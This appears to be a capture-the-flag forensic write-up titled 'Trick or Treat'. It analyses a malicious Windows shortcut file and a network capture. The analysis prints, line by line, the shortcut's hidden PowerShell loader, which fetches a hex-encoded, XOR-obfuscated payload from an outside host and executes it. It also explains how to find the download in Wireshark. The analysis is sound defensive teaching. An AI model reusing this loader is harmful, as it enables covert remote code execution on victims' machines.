





 <font size='10'>Trick or Treat</font>

11<sup>th</sup> October 2023 / Document No. D23.102.XX

Prepared By: thewildspirit

Challenge Author(s): thewildspirit

Difficulty: <font color=green>Easy</font>

Classification: Official

# Synopsis

This is a very easy and straightforward forensic challenge. It features a maliciously crafted lnk file that, when executed, downloads an encoded payload from a remote server.

## Description

* Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject "Trick or Treat" and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn't so scary; maybe the season is not so spooky after all.  

## Skills Required

* Basic programming principles
* Basic networking knowledge

## Skills Learned

* Hex decoding
* XOR encoding
* Offensive PowerShell techniques detection
* Lnk file format analysis
* Network traffic analysis

# Enumeration

We are given the following files:
* `capture.pcap`: Network capture during the incidence.
* `trick_or_treat.lnk`: Malicious lnk file.

Firstly, we need to know what the given evidence is. 

A PCAP (Packet Capture) file is a binary data file format that stores network packet data captured by packet sniffing software or hardware. These files are commonly associated with network analysis and troubleshooting tools, like `Wireshark`, `tcpdump`, and others. PCAP files capture the actual network traffic as it flows over a network interface, making them valuable for various purposes, including network monitoring, analysis, security, and forensic investigations.

On the other hand, a .lnk file, also known as a Windows Shortcut, is a file used in the Microsoft Windows operating system to point to an executable file, program, document, or folder. These files are typically used to create shortcuts to access files or programs quickly and easily. When you double-click a `.lnk` file, it opens the associated target file or program. If we search more about this file format, we will easily understand that it is a well-known attack vector used by malicious actors and offensive security professionals. But we will come back to this subject later in this write-up.

Since the scope is much smaller, starting with the `lnk` file, we will initiate our investigation starting from it.

We have two options for analyzing this file. The first is using a tool called [LnkParse3](https://pypi.org/project/LnkParse3/). The output generated by this tool can be found below:

The valuable information from this output is:

* TARGETS: This indicates that the executable pointed by this `lnk` file is `cmd.exe`
* DATA: This includes the command line arguments of the declared target.

The second option for analyzing this file is to use the `strings` command.

The reason that we provided `-el` as an argument to the `strings` command utility is:

> Windows primarily uses UTF-16LE (UTF-16 Little Endian) for text encoding and file I/O. This means that text is usually represented by Unicode characters using 16-bit code units. "Little-endian" refers to the byte order used to store the 16-bit code units in memory. In little-endian order, the least significant byte (LSB) is stored at the lowest memory address, and the most significant byte (MSB) is stored at the highest memory address.

The `-el` argument can recover this type of strings from a given file. It is a well-known and well-used technique that, most of the time, can produce "quick wins".

Let us take some time to analyze the script:

```powershell
/k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden
```
This line, searches in the `C:\Windows\SysWow64\WindowsPowerShell\v1.0\` directory if a file matches the `*rshell.exe` regex. Of course, there is such a file, and it is called `PowerShell.exe`.

```powershell
$asvods = ''
```
This line initializes an empty string variable named $asvods.

```powershell
$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko')
```
This line creates an array variable `$UserAgents` that contains three different User-Agent strings commonly used to identify the web client or browser making a request. These strings simulate different web browsers on different versions of the Windows operating system.
```powershell
$RandomUserAgent = $UserAgents | Get-Random
```
Using the `Get-Random` cmdlet, this line selects a random User-Agent string from the $UserAgents array.

```powershell
$WebClient = New-Object System.Net.WebClient
```
This line creates a WebClient object, which can be used to download content from a web server.

```powershell
$WebClient.Headers.Add('User-Agent', $RandomUserAgent)
```
This line sets the User-Agent header of the `WebClient` to the randomly selected `User-Agent` string, making the request appear as if it's coming from a specific web browser and OS.
```powershell
$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com')
```
This line uses WebClient to download the contents of the specified URL (http://windowsliveupdater.com) and stores it in the variable `$boddmei`.

```powershell
$vurnwos = ''
```
This line initializes an empty string variable named $vurnwos.

The following block of code decodes the content of $boddmei in an obfuscated way:
```powershell
$vurnwos ='';for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];$decodedChar = [char]([convert]::ToInt16($bodms, 16));$xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);$vurnwos = $vurnwos + $xoredChar};
```
A for loop iterates through the characters of `$boddmei`. It processes the characters in pairs and converts them from hexadecimal representation to their actual characters. It then performs a bitwise XOR operation with `0x1d` on each character. The decoded characters are appended to the `$vurnwos` string.
```powershell
Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos)):
```
This line attempts to invoke a script block created from the decoded content stored in `$vurnwos`. This script block contains the decoded, potentially malicious code retrieved from the website.

Now that we have analyzed the Powershell script, we can proceed with the network capture. 
Two important things we learned from the `lnk` analysis. The PowerShell script downloads a payload using the `HTTP` protocol and using one of the three user agents specified in the `$UserAgents` array.

With some trial and error, using this filter `http.user_agent contains "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko"` we can find the wanted request.


Following the stream by right-clicking the packet and then `Follow -> HTTP Stream`, we can see the encoded payload.


# Solution
Since we know that the payload is XORed with the key `0x1d` and then hex encoded, we will use [cyberchef](https://gchq.github.io/CyberChef/) to retrieve the payload.


